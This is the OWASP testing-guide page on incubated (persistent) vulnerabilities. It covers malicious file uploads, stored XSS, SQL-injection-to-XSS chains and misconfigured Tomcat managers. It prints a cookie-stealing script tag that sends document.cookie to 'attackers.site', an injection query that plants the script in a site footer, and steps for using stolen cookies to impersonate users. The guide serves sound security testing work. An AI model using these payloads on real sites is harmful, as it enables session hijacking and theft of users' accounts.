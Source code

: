 ```yaml
---
layout: col-document
title: WSTG - Latest
tags: WSTG
stamp: 20200319005119
---
```

# Testing for Incubated Vulnerability

## Summary

Also often referred to as persistent attacks, incubated testing is a complex testing method that needs more than one data validation vulnerability to work. Incubated vulnerabilities are typically used to conduct “watering hole” attacks against users of legitimate web applications.

Incubated vulnerabilities have the following characteristics:

- The attack vector needs to be persisted in the first place, it needs to be stored in the persistence layer, and this would only occur if weak data validation was present or the data arrived into the system via another channel such as an admin console or directly via a backend batch process.
- Secondly, once the attack vector was “recalled” the vector would need to be executed successfully. For example, an incubated XSS attack would require weak output validation so the script would be delivered to the client in its executable form.

Exploitation of some vulnerabilities, or even functional features of a web application, will allow an attacker to plant a piece of data that will later be retrieved by an unsuspecting user or other component of the system, exploiting some vulnerability there.

In a penetration test, `incubated attacks` can be used to assess the criticality of certain bugs, using the particular security issue found to build a client-side based attack that usually will be used to target a large number of victims at the same time (i.e. all users browsing the site).

This type of asynchronous attack covers a great spectrum of attack vectors, among them the following:

- File upload components in a web application, allowing the attacker to upload corrupted media files (jpg images exploiting `CVE-2004-0200`, png images exploiting `CVE-2004-0597`, executable files, site pages with active component, etc.)
- Cross-site scripting issues in public forums posts (see [Testing for Stored Cross Site Scripting (WSTG-INPVAL-002)](4.8.2_Testing_for_Stored_Cross_Site_Scripting_WSTG-INPVAL-002.md) for additional details). An attacker could potentially store malicious scripts or code in a repository in the backend of the web-application (e.g., a database) so that this script/code gets executed by one of the users (end users, administrators, etc). The archetypical incubated attack is exemplified by using a cross-site scripting vulnerability in a user forum, bulletin board, or blog in order to inject some JavaScript code at the vulnerable page, and will be eventually rendered and executed at the site user's browser --using the trust level of the original (vulnerable) site at the user's browser.
- SQL/XPATH Injection allowing the attacker to upload content to a database, which will be later retrieved as part of the active content in a web page. For example, if the attacker can post arbitrary JavaScript in a bulletin board so that it gets executed by users, then he might take control of their browsers (e.g., [XSS-proxy](http://sourceforge.net/projects/xss-proxy)).
- Misconfigured servers allowing installation of Java packages or similar web site components (i.e. Tomcat, or web hosting consoles such as Plesk, CPanel, Helm, etc.)

## How to Test

### Black-Box Testing

#### File Upload Example

Verify the content type allowed to upload to the web application and the resultant URL for the uploaded file. Upload a file that will exploit a component in the local user workstation when viewed or downloaded by the user. Send your victim an email or other kind of alert in order to lead him/her to browse the page. The expected result is the exploit will be triggered when the user browses the resultant page or downloads and executes the file from the trusted site.

#### XSS Example on a Bulletin Board

1. Introduce `JavaScript` code as the value for the vulnerable field, for instance:
    `<script>document.write('<img src="http://attackers.site/cv.jpg?'+document.cookie+'">')</script>`

2. Direct users to browse the vulnerable page or wait for the users to browse it. Have a "listener" at `attackers.site` host listening for all incoming connections.
3. When users browse the vulnerable page, a request containing their cookie (`document.cookie` is included as part of the requested URL) will be sent to the `attackers.site` host, such as the following:

    ```html
     - GET /cv.jpg?SignOn=COOKIEVALUE1;%20ASPSESSIONID=ROGUEIDVALUE;
         %20JSESSIONID=ADIFFERENTVALUE:-1;%20ExpirePage=https://vulnerable.site/site/;
         TOKEN=28_Sep_2006_21:46:36_GMT HTTP/1.1
    ```

4. Use cookies obtained to impersonate users at the vulnerable site.

#### SQL Injection Example

Usually, this set of examples leverages XSS attacks by exploiting a SQL-injection vulnerability. The first thing to test is whether the target site has a SQL injection vulnerability. This is described in Section 4.2 [Testing for SQL Injection](4.8.6_Testing_for_LDAP_Injection_WSTG-INPVAL-006.md). For each SQL-injection vulnerability, there is an underlying set of constraints describing the kind of queries that the attacker/pen-tester is allowed to do.

The tester then has to match the XSS attacks he has devised with the entries that he is allowed to insert.

1. In a similar fashion as in the previous XSS example, use a web page field vulnerable to SQL injection issues to change a value in the database that would be used by the application as input to be shown at the site without proper filtering (this would be a combination of an SQL injection and a XSS issue). For instance, let's suppose there is a `footer` table at the database with all footers for the web site pages, including a `notice` field with the legal notice that appears at the bottom of each web page. You could use the following query to inject JavaScript code to the `notice` field at the `footer` table in the database.

    ```sql
    SELECT field1, field2, field3`
     FROM table_x
     WHERE field2 = 'x';
        UPDATE footer
        SET notice = 'Copyright 1999-2030%20
            <script>document.write(\'<img src="http://attackers.site/cv.jpg?\'+document.cookie+\'">\')</script>'
        WHERE notice = 'Copyright 1999-2030';
    ```

2. Now, each user browsing the site will silently send his cookies to the `attackers.site` (steps b.2 to b.4).

#### Misconfigured Server

Some web servers present an administration interface that may allow an attacker to upload active components of her choice to the site. This could be the case with an Apache Tomcat server that doesn’t enforce strong credentials to access its Web Application Manager (or if the pen testers have been able to obtain valid credentials for the administration module by other means).

In this case, a WAR file can be uploaded and a new web application deployed at the site, which will not only allow the pen tester to execute code of her choice locally at the server, but also to plant an application at the trusted site, which the site regular users can then access (most probably with a higher degree of trust than when accessing a different site).

As should also be obvious, the ability to change web page contents at the server, via any vulnerabilities that may be exploitable at the host which will give the attacker webroot write permissions, will also be useful towards planting such an incubated attack on the web server pages (actually, this is a known infection-spread method for some web server worms).

### Gray-Box Testing

Gray-box or white-box testing techniques will be the same as previously discussed.

- Examining input validation is key in mitigating against this vulnerability. If other systems in the enterprise use the same persistence layer they may have weak input validation and the data may be persisted via a `back door`.
- To combat the `back door` issue for client side attacks, output validation must also be employed so tainted data shall be encoded prior to displaying to the client, and hence not execute.

## Tools

- [XSS-proxy](https://sourceforge.net/projects/xss-proxy)
- [OWASP Zed Attack Proxy (ZAP)](https://www.zaproxy.org/)
- [Burp Suite](https://portswigger.net/burp)
- [Metasploit](https://www.metasploit.com/)

## References

Most of the references from the Cross-site scripting section are valid. As explained above, incubated attacks are executed when combining exploits such as XSS or SQL-injection attacks.

### Advisories

- [CERT(R) Advisory CA-2000-02 Malicious HTML Tags Embedded in Client Web Requests](https://www.cert.org/advisories/CA-2000-02.html)
- [Blackboard Academic Suite 6.2.23 +/-: Persistent cross-site scripting vulnerability](https://cxsecurity.com/issue/WLB-2006080004)

### White papers

- [Web Application Security Consortium “Threat Classification, Cross-site scripting”](http://www.webappsec.org/projects/threat/classes/cross-site_scripting.shtml)
